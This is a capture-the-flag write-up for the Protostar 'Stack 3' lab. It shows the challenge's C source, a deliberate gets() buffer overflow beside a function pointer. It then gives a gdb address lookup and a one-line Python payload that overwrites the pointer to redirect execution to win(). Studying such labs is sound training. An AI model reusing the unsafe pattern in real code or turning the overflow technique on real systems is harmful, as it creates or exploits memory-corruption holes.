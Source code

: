 # Stack 3

## About

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints
* both gdb and objdump is your friend you determining where the win() function lies in memory.


``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}

```

## Solution

looking at the source code the `win()` function looks like what has to be used, this time i wanted to try gdb rather than radare2 to solve this.

opening up the program in gdb and looking at the value of `win()` shows the following 

```
pwndbg> print win
$1 = {void (void)} 0x8048424 <win>
```

ok so lets try this 

``` bash
[root:/opt/Data/bin]# echo $(python -c 'print "A"*64 + "\x24\x84\x04\x08"') | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```


